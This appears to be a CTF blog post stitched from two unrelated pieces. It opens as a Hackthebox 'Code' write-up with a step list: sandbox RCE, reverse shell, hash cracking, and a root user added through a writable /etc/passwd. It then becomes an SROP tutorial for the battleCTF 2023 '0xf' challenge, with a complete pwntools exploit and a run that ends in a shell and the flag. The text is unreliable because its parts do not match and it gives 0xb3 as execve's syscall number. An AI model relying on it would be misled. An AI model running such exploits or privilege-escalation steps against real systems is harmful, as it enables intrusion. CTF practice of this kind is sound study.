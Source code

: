 ```yaml
---
title: Hackthebox code machine write up 
categories: PENTEST 
image: null
published: true
---
```



H3ll0 pwn3rs !!!

![recon](/assets/hackthebox/code_pwn.png)

Here is a writeup for Hackthebox `code machine`


Hackthebox `Code box `  is an easy linux machine.

We exploit the machine as follow:
- Exploit RCE in python sanbox
- Make reverse shell
- Found databse file
- retrive Martin password in md5 hash
- crack the password with crackstation
- connect to ssh with martin credential
- use  linpeas to enum
- /etc/passwd is writable by martin
- create new-user root user
- switch to new-user and get access to root
# sigreturn syscall 
```
Sigreturn (syscall 0xf) is a syscall used to restore the entire register context from memory pointed at by ESP or RSP for x86_64 arch.
That said when the cpu exec syscall(rax=0xf), the program will read frame pointed by stack pointer
and restor  it value into registers. This frame has a  specific format for each CPU arch  so the CPU know that at offset xx, it is the rax register value and at offset yy it is the value of rbx
```

How this can help us to exploit a program.

If you can overwrite the stack frame after sigreturn syscall, by exploiting buffer overflow vuln for example, you can control the value of cpu registers and that is where you can do rop chain.
For instance, let said  on x86_64 by overwriting the stack frame after sigreturn syscall  call you are able to overwrite: 
- rax to 0xb3
- rdi to the address of "bin/sh" string
- rsi to 0
- rip to sycall gadget

That will let the program make execve("/bin/sh") and you get the shell.


# Pratical part
In this part, i will use Africa Battle CTF 2023 challenge to show a pratical case of this exploitation technical 

Let start !!!!!!!!!!!!!!!!!!!!!!
The challenge was named: `0xf`

The binary file `syscall` is an ELF x86_64 dynamically linkded and not stripped.

When we check mitigation we can see that the binary don't has `stack cannary` protection , `No PIE` and the stack is not executable
```bash
file syscall 
syscall: ELF 64-bit LSB executable, x86-64, version 1 (SYSV), dynamically linked, interpreter /lib64/ld-linux-x86-64.so.2, BuildID[sha1]=aed719058a5efedf4d245c5c3c610937cd8d4ad7, for GNU/Linux 3.2.0, not stripped
┌─[top0n3@parrot]─[/media/top0n3/7B29B9A756CC225A/ctf/battleCTF-2023-main/Prequal/Pwn/0xf/source]
└──╼ $pwn checksec syscall 
[*] '/media/top0n3/7B29B9A756CC225A/ctf/battleCTF-2023-main/Prequal/Pwn/0xf/source/syscall'
    Arch:       amd64-64-little
    RELRO:      Partial RELRO
    Stack:      No canary found
    NX:         NX enabled
    PIE:        No PIE (0x400000)
    Stripped:   No

```


![recon](/assets/pwn/battle_0xf_recon.png)

Through gdb-gef session, we can see that the binary are  two defined function `main` and `hausa`.

i used ghidra to decompile these function .
```

undefined8 main(void)

{
  char local_38 [48];
  
  puts("Africa battle CTF 2023");
  puts("Tell us about your ethnicity:");
  gets(local_38);
  return 0;
}

undefined8 hausa(void)

{
  return 0xf;
}


```

main function call gets(local_38) so the program is vulnerable to Buffer overflow.
But what to do with this vulnerability!?
I search for gadget to make ropchain, i noticed that we don't have a lot of gadget.
By those gadgets are very interesting
```
mov rax, 0xf; ret
syscall; ret
```
if we overwrite saved rip to `mov rax, 0xf; ret` and saved rip + 8 to `syscall; ret`, the program will make signreturn syscall and.
So the the thing that we must do here is to create a frame that will help us to make execve(/bin/sh) and sand payload like this `mov rax,0xf;ret` + `syscall; ret` + our created frame data.

Pwn tool python  module can help us to create this frame . The only thing that we need is to find `/bin/sh` address and use it with our previous gadget. 
Luckly we have "/bin/sh" string on the binary.

Bellow is the final exploit

```python
from pwn import *



# Set up pwntools for the correct architecture
elf = exe = context.binary = ELF(args.EXE or 'syscall')

def start(argv=[], *a, **kw):
    '''Start the exploit against the target.'''
    if args.GDB:
        return gdb.debug([exe.path] + argv, gdbscript=gdbscript, *a, **kw)
    else:
        return process([exe.path] + argv, *a, **kw)


# Gadget to make srop 
bin_sh = int(next(elf.search(b'/bin/sh'))) # /bin/sh string
offset = 56  # offset to overwrite return address
mov_rax_0xf = next(elf.search(asm('mov eax ,0xf')))   # signreturn gadget
syscall_ret = next(elf.search(asm('syscall; ret')))  # syscall gadget

########################  Payload ########################
frame = SigreturnFrame(kernel='amd64') 
frame.rax = constants.SYS_execve
frame.rdi =  bin_sh
frame.rdx = 0                 # envp = NULL
frame.rip = syscall_ret  

payload = cyclic(offset)
payload += p64(mov_rax_0xf) 
payload += p64(syscall_ret)
payload += bytes(frame)

io = start()
io.sendline(payload)
io.interactive()

```

```bash
┌─[top0n3@parrot]─[/media/top0n3/7B29B9A756CC225A/ctf/battleCTF-2023-main/Prequal/Pwn/0xf/source]                                                                                        [0/3]
└──╼ $python3 exploit.py 
[*] '/media/top0n3/7B29B9A756CC225A/ctf/battleCTF-2023-main/Prequal/Pwn/0xf/source/syscall'
    Arch:       amd64-64-little
    RELRO:      Partial RELRO
    Stack:      No canary found
    NX:         NX enabled
    PIE:        No PIE (0x400000)
    Stripped:   No
[+] Starting local process '/media/top0n3/7B29B9A756CC225A/ctf/battleCTF-2023-main/Prequal/Pwn/0xf/source/syscall': pid 191168
[*] Switching to interactive mode
Africa battle CTF 2023
Tell us about your ethnicity:
$ ls
__pycache__  exploit.py  flag.txt  syscall
$ cat flag.txt
battleCTF{Ethnicity_SigROP_Syscall_Army_f0d9e29e9c1d03c996083bb9c3325d33}
$  
```
and we get the flag by making `SROP`
